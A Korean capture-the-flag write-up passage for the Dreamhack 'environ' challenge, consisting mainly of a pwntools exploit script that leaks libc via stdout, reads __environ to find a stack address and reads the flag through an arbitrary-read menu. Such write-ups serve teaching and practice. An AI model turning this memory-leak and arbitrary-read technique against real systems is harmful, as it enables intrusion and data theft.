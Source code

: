 readfile 에서 파일을 읽는 부분에서 브레이크를 걸고 rcx와 environ 의 오프셋을 구했다.   

바로 익스플로잇 코드를 짜보자.  

<br>

**익스플로잇 코드**

```bash
from pwn import *

#p = process('./environ')
p = remote('host8.dreamhack.games', 23030)

libc = ELF('./libc.so.6')

p.recvuntil(b': ')

stdout = int(p.recvuntil(b'\n'), 16)
libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
libc_env = libc_base + libc.symbols['__environ']

print('libc_base: ', hex(libc_base))
print('libc_environ: ', hex(libc_env))

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Addr: ', str(libc_env).encode())

stack_environ = u64(p.recv(6).ljust(8, b'\x00'))
flag = stack_environ - 0x1568

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Addr: ', str(flag).encode())

p.interactive()
```

<br>


<img width="1406" height="503" alt="image" src="https://github.com/user-attachments/assets/67a15fa4-0b81-4141-8022-29a9a1a27727" />


답이 나왔다.
